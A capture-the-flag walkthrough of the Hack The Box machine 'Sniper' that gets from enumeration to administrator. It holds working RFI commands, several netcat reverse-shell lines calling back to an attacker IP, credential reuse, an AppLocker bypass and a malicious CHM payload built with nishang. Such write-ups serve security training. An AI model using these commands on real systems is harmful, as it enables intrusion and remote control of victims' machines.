


# Sniper
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.151 -T4                   
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-11 19:59 BST
Stats: 0:17:07 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Nmap scan report for 10.10.10.151
Host is up (0.024s latency).
Not shown: 65530 filtered ports
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
49667/tcp open  unknown
```
```
└─$ nmap -Pn -p80,135,139,445 -sC -sV 10.10.10.151 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-11 20:17 BST
Nmap scan report for 10.10.10.151 (10.10.10.151)
Host is up (0.13s latency).

PORT    STATE SERVICE       VERSION
80/tcp  open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Sniper Co.
|_http-server-header: Microsoft-IIS/10.0
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6h59m22s
| smb2-time: 
|   date: 2023-09-12T02:17:13
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required


```
- `smb`
```
└─$ smbclient -N -L //10.10.10.151                                                    
session setup failed: NT_STATUS_ACCESS_DENIED                                            
```

- Web Server



- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.151/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt,asp,aspx --no-error
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.151/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,asp,aspx
[+] Timeout:                 10s
===============================================================
2023/09/12 15:57:15 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 150] [--> http://10.10.10.151/images/]
/blog                 (Status: 301) [Size: 148] [--> http://10.10.10.151/blog/]
/user                 (Status: 301) [Size: 148] [--> http://10.10.10.151/user/]
/Images               (Status: 301) [Size: 150] [--> http://10.10.10.151/Images/]
/css                  (Status: 301) [Size: 147] [--> http://10.10.10.151/css/]
/js                   (Status: 301) [Size: 146] [--> http://10.10.10.151/js/]

```

## Foothold
- `/blog`


- It looks like we have a `LFI`

```
└─$ curl 'http://10.10.10.151/blog/?lang=\Windows\System32\drivers\etc\hosts'

<html>
...
</html>
# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to host names. Each
# entry should be kept on an individual line. The IP address should
# be placed in the first column followed by the corresponding host name.
# The IP address and the host name should be separated by at least one
# space.
#
# Additionally, comments (such as these) may be inserted on individual
# lines or following the machine name denoted by a '#' symbol.
#
# For example:
#
#      102.54.94.97     rhino.acme.com          # source server
#       38.25.63.10     x.acme.com              # x client host

# localhost name resolution is handled within DNS itself.
#       127.0.0.1       localhost
#       ::1             localhost
</body>
</html>

```

- And `RFI`


- Let's try `RFI`
```
└─$ curl 'http://10.10.10.151/blog/?lang=\\10.10.16.9\share\shell.php&cmd=whoami'
...
</html>
nt authority\iusr
</body>
</html>
****
```

- Let's get reverse shell
```
└─$ curl 'http://10.10.10.151/blog/?lang=\\10.10.16.9\share\shell.php&cmd=\\10.10.16.9\share\nc64.exe+10.10.16.9+6666+-e+cmd.exe'

```
```
└─$ nc -vlnp 6666                                                                               
listening on [any] 6666 ...
connect to [10.10.16.9] from (UNKNOWN) [10.10.10.151] 49678
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\blog>

```
## User
- `C:\inetpub\wwwroot\` has `user` folder
```
PS C:\inetpub\wwwroot\user> dir
dir


    Directory: C:\inetpub\wwwroot\user


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        4/11/2019   5:52 AM                css                                                                   
d-----        4/11/2019   5:23 AM                fonts                                                                 
d-----        4/11/2019   5:23 AM                images                                                                
d-----        4/11/2019   5:23 AM                js                                                                    
d-----        4/11/2019   5:23 AM                vendor                                                                
-a----        4/11/2019   5:15 PM            108 auth.php                                                              
-a----        4/11/2019  10:51 AM            337 db.php                                                                
-a----        4/11/2019   6:18 AM           4639 index.php                                                             
-a----        4/11/2019   6:10 AM           6463 login.php                                                             
-a----         4/8/2019  11:04 PM            148 logout.php                                                            
-a----        10/1/2019   8:42 AM           7192 registration.php                                                      
-a----        8/14/2019  10:35 PM           7004 registration_old123123123847.php
```

- `db.php` has creds
```
PS C:\inetpub\wwwroot\user> type db.php
type db.php
<?php
// Enter your Host, username, password, database below.
// I left password empty because i do not set password on localhost.
$con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>

```

- We can try the creds as `Chris` user

```
PS C:\> $user = "Sniper\Chris"
$user = "Sniper\Chris"
PS C:\> $password = ConvertTo-SecureString '36mEAhz/B8xQ~2VM' -AsPlainText -Force
$password = ConvertTo-SecureString '36mEAhz/B8xQ~2VM' -AsPlainText -Force
PS C:\> $cred = New-Object System.Management.Automation.PSCredential($user, $password)
$cred = New-Object System.Management.Automation.PSCredential($user, $password)
PS C:\> Invoke-Command -Computer localhost -Credential $cred -ScriptBlock { whoami }
Invoke-Command -Computer localhost -Credential $cred -ScriptBlock { whoami }
sniper\chris
PS C:\> 
```

- Looks like it works
  - Let's get reverse shell

```
PS C:\> Invoke-Command -Computer localhost -Credential $cred -ScriptBlock {\\10.10.16.9\share\nc64.exe 10.10.16.9 7777 -e cmd.exe}
Invoke-Command -Computer localhost -Credential $cred -ScriptBlock {\\10.10.16.9\share\nc64.exe 10.10.16.9 7777 -e cmd.exe}
```


## Root
- `whoami`
```
C:\Users\Chris>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State  
============================= ============================== =======
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

C:\Users\Chris>whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users        Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                   Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192  
```

- We have a `docs`
```
C:\Users\Chris>dir Downloads
dir Downloads
 Volume in drive C has no label.
 Volume Serial Number is AE98-73A8

 Directory of C:\Users\Chris\Downloads

04/11/2019  08:36 AM    <DIR>          .
04/11/2019  08:36 AM    <DIR>          ..
04/11/2019  08:36 AM            10,462 instructions.chm
               1 File(s)         10,462 bytes
               2 Dir(s)   2,353,213,440 bytes free
```


- We have also a note in `C:\Docs` folder
```
c:\>dir Docs
dir Docs
 Volume in drive C has no label.
 Volume Serial Number is AE98-73A8

 Directory of c:\Docs

10/01/2019  01:04 PM    <DIR>          .
10/01/2019  01:04 PM    <DIR>          ..
04/11/2019  09:31 AM               285 note.txt
04/11/2019  09:17 AM           552,607 php for dummies-trial.pdf
               2 File(s)        552,892 bytes
               2 Dir(s)   2,353,213,440 bytes free

c:\>cd Docs
cd Docs

c:\Docs>type note.txt
type note.txt
Hi Chris,
        Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.

Regards,
Sniper CEO.
c:\Docs>

```

- Looks like if we drop `.chm` file to `c:/Docs` folder, it will be opened
  - We can use https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1 to create a malicious `.chm` and drop it to `Docs`
  - Let's do it

```
PS D:\VMs\Shared> Out-CHM -Payload "\windows\system32\spool\drivers\color\nc64.exe -e cmd 10.10.16.9 8888" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
Microsoft HTML Help Compiler 4.74.8702

Compiling d:\VMs\Shared\doc.chm


Compile time: 0 minutes, 0 seconds
2       Topics
4       Local links
4       Internet links
0       Graphics


Created d:\VMs\Shared\doc.chm, 13,458 bytes
Compression increased file by 265 bytes.
```
- Now we have to save `nc` to folder to bypass `Applocker`
  - https://book.hacktricks.xyz/windows-hardening/authentication-credentials-uac-and-efs#bypass

```
PS C:\Users\Chris\Downloads> iwr 10.10.16.9/nc64.exe -outfile c:\windows\system32\spool\drivers\color\nc64.exe
iwr 10.10.16.9/nc64.exe -outfile c:\windows\system32\spool\drivers\color\nc64.exe
PS C:\Users\Chris\Downloads> ls \windows\system32\spool\drivers\color\nc64.exe
ls \windows\system32\spool\drivers\color\nc64.exe


    Directory: C:\windows\system32\spool\drivers\color


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        9/16/2023  11:16 AM          45272 nc64.exe
```

- Now, let's upload the `.chm` file and save it to `C:/Docs`

```
PS C:\Users\Chris\Downloads> iwr 10.10.16.9/doc.chm -outfile doc.chm
iwr 10.10.16.9/doc.chm -outfile doc.chm
PS C:\Users\Chris\Downloads> ls
ls


    Directory: C:\Users\Chris\Downloads


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        9/16/2023  11:16 AM          13458 doc.chm                                                               
-a----        4/11/2019   8:36 AM          10462 instructions.chm                                                      


PS C:\Users\Chris\Downloads> copy doc.chm \Docs
copy doc.chm \Docs
PS C:\Users\Chris\Downloads> ls \Docs
ls \Docs


    Directory: C:\Docs


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        9/16/2023  11:16 AM          13458 doc.chm                                                               
-a----        4/11/2019   9:31 AM            285 note.txt                                                              
-a----        4/11/2019   9:17 AM         552607 php for dummies-trial.pdf                                             
```

- After few minutes, we have our connection



## Alternative path to Foothold
- Check [0xdf](https://0xdf.gitlab.io/2020/03/28/htb-sniper.html#path-1---lfi) and [Ippsec](https://www.youtube.com/watch?v=k7gD4ufex9Q&list=PLidcsTyj9JXI9E9dT1jgXxvTOi7Pq_2c5&index=15) for `LFI` exploit chain to get a foothold
